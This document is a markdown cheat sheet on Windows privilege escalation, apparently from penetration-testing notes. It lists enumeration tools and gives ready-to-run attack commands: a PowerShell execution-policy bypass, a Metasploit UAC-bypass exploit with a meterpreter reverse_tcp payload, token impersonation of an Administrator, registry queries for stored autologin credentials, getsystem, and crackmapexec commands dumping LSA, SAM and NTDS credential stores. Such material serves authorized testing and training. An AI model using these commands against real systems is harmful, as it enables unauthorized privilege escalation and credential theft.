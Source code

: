 # Privilege Escalation Windows
#### Automated tools
* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
* [Sherlock](https://github.com/rasta-mouse/Sherlock)
* [Watson](https://github.com/rasta-mouse/Watson)
* [JAWS](https://github.com/411Hall/JAWS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
#### Enumerate with Privescheck
* [Privescheck](https://github.com/itm4n/PrivescCheck)
````bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
````
#### UAC Bypass (Metasploit)
````bash
use exploit/windows/local/bypassuac_injection
set session 1
set TARGET 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
````
#### Token Impersonation
````bash
# load plugin
load incognito

# List tokens
list_tokens -u

# Impersonate
impersonate_token admin\\Administrator
````
#### Windows autologin
````bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
````
#### Meterpreter (Metasploit)
````bash
getsystem
````
#### Registry
````bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
````
#### Crackmapexec
````bash
# lsa 
crackmapexec smb 10.0.2.11 -u admin -p 12345678 --lsa
# sam 
crackmapexec smb 10.0.2.11 -u admin -p 12345678 --sam
# ntds
crackmapexec smb 10.0.2.11 -u admin -p 12345678 --ntds
````